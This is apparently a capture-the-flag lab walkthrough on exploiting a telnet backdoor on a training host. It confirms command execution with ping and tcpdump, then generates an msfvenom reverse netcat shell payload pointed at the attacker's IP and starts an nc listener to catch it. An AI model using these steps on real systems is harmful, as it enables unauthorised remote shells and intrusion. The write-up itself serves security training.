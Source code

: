 ```
telnet 10.10.17.119 8012
Trying 10.10.17.119...
Connected to 10.10.17.119.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```

	2. Great! It's an open telnet connection! What welcome message do we receive?

SKIDY'S BACKDOOR

	3. Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

N

	4. Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.

Start a tcpdump listener

```
sudo tcpdump ip proto \\icmp -i tun0
```

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

	5. Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
.RUN ping 10.9.5.200 -c 1
```

Y

Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

Generate a reverse netcat shell payload using msfvenom

```
./msfvenom -p cmd/unix/reverse_netcat lhost=10.9.5.200 lport=4444 R
```

	6. What word does the generated payload start with?

mkfifo

start netcat listener

```
nc -lnvp 4444
```

	7. What would the command look like for the listening port we selected in our payload?

nc-lvp 4444

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
